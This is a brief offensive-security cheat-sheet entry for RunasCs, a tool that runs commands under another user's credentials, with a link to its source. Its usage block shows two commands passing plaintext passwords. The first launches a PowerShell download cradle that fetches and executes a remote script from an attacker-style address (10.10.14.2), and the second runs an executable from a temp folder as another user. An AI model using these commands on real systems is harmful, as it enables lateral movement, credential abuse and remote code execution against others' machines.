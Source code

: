 # Name
RunasCs

## Usage
```
# No space in password
.\RunasCs.exe jamie P@ssw0rd123! "powershell.exe -c iex (new-object net.webclient).downloadstring('http://10.10.14.2/runall.ps1')" -d zsm.local -l 8

# When space is present in password
.\RunasCs.exe pgibbons "I l0ve going Fishing!" "cmd /c c:\temp\m445.exe" -d corp.local -l 8
```

## Source
https://github.com/antonioCoco/RunasCs
